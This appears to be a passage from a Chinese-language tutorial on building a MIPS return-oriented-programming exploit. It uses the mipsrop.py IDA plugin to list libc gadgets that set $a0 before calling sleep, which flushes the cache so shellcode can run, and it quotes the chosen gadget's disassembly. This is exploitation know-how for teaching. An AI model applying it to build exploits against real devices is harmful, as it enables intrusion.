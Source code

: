 找 gadget 我們可以使用 mipsrop.py 這個 ida 插件進行。

由於 mips 流水指令集的特點，存在 cache incoherency 的特性，需要調用 sleep 或者其他函數將數據區刷新到當前指令區中去，才能正常執行 shellcode。爲了找到更多的 gadget，以及這是一個 demo ，所有我們在 libc 裏查找
#### 1. 調用 sleep 函數
調用 sleep 函數之前，我們需要先找到對 a0 進行設置的 gadget
```
Python>mipsrop.find("li $a0, 1")
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x000B9350  |  li $a0,1                                            |  jalr  $s2                             |
|  0x000E2660  |  li $a0,1                                            |  jalr  $s2                             |
|  0x00109918  |  li $a0,1                                            |  jalr  $s1                             |
|  0x0010E604  |  li $a0,1                                            |  jalr  $s2                             |
|  0x0012D650  |  li $a0,1                                            |  jalr  $s0                             |
|  0x0012D658  |  li $a0,1                                            |  jalr  $s2                             |
|  0x00034C5C  |  li $a0,1                                            |  jr    0x18+var_s4($sp)                |
|  0x00080100  |  li $a0,1                                            |  jr    0x18+var_s4($sp)                |
|  0x00088E80  |  li $a0,1                                            |  jr    0x1C+var_s0($sp)                |
|  0x00091134  |  li $a0,1                                            |  jr    0x70+var_s24($sp)               |
|  0x00091BB0  |  li $a0,1                                            |  jr    0x70+var_s24($sp)               |
|  0x000D5460  |  li $a0,1                                            |  jr    0x1C+var_s10($sp)               |
|  0x000F2A80  |  li $a0,1                                            |  jr    0x1C+var_s0($sp)                |
|  0x001251C0  |  li $a0,1                                            |  jr    0x18+var_s14($sp)               |
----------------------------------------------------------------------------------------------------------------
Found 14 matching gadgets
```

例如我們這裏選擇了  0x00E2660 處的 gadget

```
.text:000E2660                 move    $t9, $s2
.text:000E2664                 jalr    $t9 ; sigprocmask
.text:000E2668                 li      $a0, 1
```

